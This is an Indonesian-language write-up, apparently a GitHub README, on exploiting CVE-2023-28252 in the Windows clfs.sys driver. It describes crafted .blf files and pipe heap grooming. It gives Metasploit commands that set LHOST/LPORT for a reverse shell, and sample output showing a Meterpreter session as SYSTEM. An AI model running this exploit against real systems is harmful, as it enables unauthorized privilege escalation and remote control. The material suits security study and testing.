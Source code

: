 # cve_2023_28252_clfs_driver

Sebuah kerentanan eskalasi hak istimewa (`privilege escalation`) ditemukan pada driver `clfs.sys` yang secara default sudah terpasang di sistem operasi `Windows 10 21H2`, `Windows 11 21H2`, dan `Windows Server 20348`.

Driver `clfs.sys` memiliki fungsi bernama `CreateLogFile`, yang digunakan untuk `membuat`, `membuka`, dan `mengedit` file dengan ekstensi `.blf` (`base log format`). Di dalam file `.blf` terdapat berbagai blok data yang mengandung checksum untuk memverifikasi integritas file dan memastikan file tersebut valid.

Namun, file `.blf` ini dapat dimodifikasi menggunakan fungsi seperti `CreateFileA` atau `fopen`, dan diubah dengan `WriteFile` atau `fwrite`. Setelah diubah, checksumnya dapat diperbarui sehingga tetap terlihat valid.

Eksploitasi ini menggunakan dua jenis file .blf yang dimodifikasi dengan cara di atas:
- File `spray.blf`: file khusus ini dibuat untuk memicu `out-of-bounds read`, yakni pembacaan memori di luar batas yang seharusnya. Memori yang dibaca ini berisi pipe baca-tulis (`read-write pipe`) yang diarahkan ke...
- File `trigger.blf`: file inilah yang dirancang untuk membaca token `SYSTEM` dan menulis token tersebut ke proses exploit, menghasilkan eskalasi hak istimewa lokal (`privilege escalation`).

Langkah eksploitasi:

- Pertama, program membuat banyak `read-write pipe` menggunakan `CreatePipe`, yang mengisi memori sebesar `0x90` byte per pipe.
- Kemudian beberapa pipe dibebaskan (`deallocated`), menciptakan celah dalam memori.
- Fungsi `CreateLogFile` dipanggil untuk membuka file `spray.blf`, yang mengisi celah memori tersebut, sehingga terbentuk ruang memori terkontrol.
- Setelah itu, `file trigger.blf` digunakan untuk memicu penulisan token `SYSTEM` ke proses exploit.

Ini adalah penjelasan singkat dan umum mengenai mekanisme exploit. Untuk analisis teknis lebih rinci, silakan merujuk ke:
[https://github.com/fortra/CVE-2023-28252](https://github.com/fortra/CVE-2023-28252)

## Penulis
- Ricardo Narvaja
- Esteban.kazimirow
- jheysel-r7

## Platform
- `Windows`

## Arsitektur
`x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/cve_2023_28252_clfs_driver
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.22000.0 which has a vulnerable version of clfs.sys installed by default
[*] Launching netsh to host the DLL...
[+] Process 8324 launched.
[*] Reflectively injecting the DLL into 8324...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (203846 bytes) to 192.168.1.55
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.16/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] Meterpreter session 9 opened (192.168.1.11:4444 -> 192.168.1.55:61439) at 2025-05-17 21:24:10 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/cve_2023_28252_clfs_driver/)
